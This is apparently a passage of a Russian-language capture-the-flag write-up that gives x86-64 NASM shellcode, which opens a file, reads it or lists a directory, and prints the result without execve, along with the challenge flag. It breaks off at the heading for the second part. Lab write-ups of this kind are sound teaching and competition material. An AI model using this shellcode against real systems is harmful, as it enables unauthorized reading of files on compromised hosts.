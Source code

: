 ```nasm

section .text

_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi
xor byte [rdi + {длина filename}], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi
syscall

; read/getdents
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff
xor rax, rax
; add al, 78 ; добавить для getdents
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/filenameA"
```
Находим файл this_is_flag, читаем.
Связанные скрипты в [./pwn3/](./pwn3/).

`flag`: nto{N0_execve_D03SnT_m34n_n0_PWN}

# Решение II части:
